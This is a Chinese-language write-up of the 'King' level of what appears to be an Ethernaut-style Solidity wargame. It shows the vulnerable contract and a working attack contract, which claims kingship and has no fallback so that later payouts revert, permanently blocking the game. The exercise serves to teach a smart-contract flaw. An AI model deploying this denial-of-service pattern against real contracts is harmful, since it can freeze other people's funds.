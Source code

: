
#### 9. King  

> **Target**: Be a king forever!!  

&emsp;&emsp;先放源码：  

```javascript
pragma solidity ^0.4.18;

import 'zeppelin-solidity/contracts/ownership/Ownable.sol';

contract King is Ownable {

  address public king;
  uint public prize;

  function King() public payable {
    king = msg.sender;
    prize = msg.value;
  }

  function() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }
}
```

&emsp;&emsp;这个题目有点坑爹，他原本的目的是让你进行一次**ddos**攻击,在之前的版本中，我们可以使用  
```javascript
1. require()

2. revert()

3. assert()
```
&emsp;&emsp;这三个函数主动抛出错误，这样一样就可以阻止**transfer()**的进行，但是在实施的时候我们发现这三个函数并没有阻止交易的进行，所以我们决定直接放弃编写fallback()从而进行拒绝服务攻击。  

```javascript
contract fuck{
    function fuck() payable{
        address king_addr = 0xc48b3899a3a594b170404855De1B0bDA2d0aec1c;
        king_addr.call.value(1.01 ether)();
    }
    function gg() public{
        selfdestruct(msg.sender);
    }
}
```
> gg()完全是为了以防钱提不出来，留个后手。  

---